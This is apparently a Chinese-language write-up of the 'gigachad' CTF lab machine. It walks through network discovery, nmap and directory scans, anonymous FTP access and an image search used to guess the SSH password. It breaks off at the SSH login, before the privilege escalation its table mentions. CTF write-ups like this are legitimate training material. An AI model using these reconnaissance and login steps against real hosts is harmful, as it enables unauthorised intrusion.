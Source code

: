 |   |   |   |
|---|---|---|
|gigachad|easy|ftp利用、google反图搜索、 suid提权、s-nail 提权|

# 主机发现
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ sudo netdiscover -i eth0 -r 192.168.44.138/24
```

# 服务探测
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ sudo nmap -sV -A -T 4 -p- 192.168.44.138 

|_/kingchad.html

```
开放了21，22，80
访问http://192.168.44.138//kingchad.html是一张带字的图，翻译
```c
HELL0? IS IT MI5 OR MI6?
他是谁？是军情五处还是军情六处？

WHATEVER, SOMEONE IS TRYINGTO HACK US
不管怎么说，有人想黑我们

```

# 目录扫描
```css
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ gobuster dir -u http://192.168.44.138/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,png -e

┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ ffuf -u http://192.168.44.138/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -mc 200

```
很奇怪，扫描到什么就会出现什么，访问都是同一堆字符

访问首页，右键检查源码，解码后没啥用
```c
A7F9B77C16A3AA80DAA4E378659226F628326A95
D82D10564866FD9B201941BCC6C94022196F8EE8 
[md5在线解密破解,md5解密加密](https://www.cmd5.com/)
fuck you
VIRGIN
```
通过匿名访问获取ftp 权限，里面有一个压缩包
密码：anonymous
get出来，解压出来，得到用户名chad
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ ftp 192.168.44.138 //anonymous

get chadino
unzip chadino
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ cat chadinfo 
why yes,
#######################
username is chad
???????????????????????
password?
!!!!!!!!!!!!!!!!!!!!!!!
go to /drippinchad.png

```
访问http://192.168.44.138/drippinchad.png下载图片
```c
WHY YES, THIS IS MY EAVORITE PLACE TO RELAX

HOW AOULD YOU TELL?
翻译
为什么是的，这是我最喜欢放松的地方

你怎么知道？
```
猜测应该是找这个地方
google搜图，谷歌上找到了这个地方叫maidens tower(处女塔)尝试使用这个地方名作为密码登录ssh 居然真成功了。
密码：maidenstower
